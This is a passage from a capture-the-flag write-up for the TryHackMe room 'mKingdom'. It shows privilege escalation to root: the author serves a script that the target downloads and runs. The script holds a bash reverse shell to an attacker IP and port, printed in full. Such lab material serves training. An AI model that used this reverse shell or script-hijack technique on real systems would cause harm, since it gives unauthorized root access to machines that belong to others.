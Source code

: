 And then I create a sub-directory as same as the destination has been mentioned on my local machine within a reverse shell named as “**`counter.sh`**”:

```
┌──(kali㉿kali)-[~/TryHackMe/mKingdom]
└─$ mkdir -p app/castle/application/                                   
                                                                                                                      
┌──(kali㉿kali)-[~/TryHackMe/mKingdom]
└─$ nano app/castle/application/counter.sh
                                                                                                                      
┌──(kali㉿kali)-[~/TryHackMe/mKingdom]
└─$ cat app/castle/application/counter.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.6.68.89/4444 0>&1

```

Finally, do the last 2 things:

- Start a listener on the specified port in the reverse shell **`counter.sh`**
- Start an HTTP server on port **`85`** in the current directory

![image.png](/assets/mKingdom%20images/image%2016.png)

Wait for a while and observe whether the created shell has been transferred and the listener has successfully connected to the target machine as the root user. Using the same technique as **`mario`**'s directory, copy the **`root.txt`** file to **`/tmp`**. I am ready to capture the root flag.

```
root@mkingdom:~# cp root.txt /tmp/root.txt
cp root.txt /tmp/root.txt
root@mkingdom:~# cat /tmp/root.txt
cat /tmp/root.txt
thm{REDACTED}
```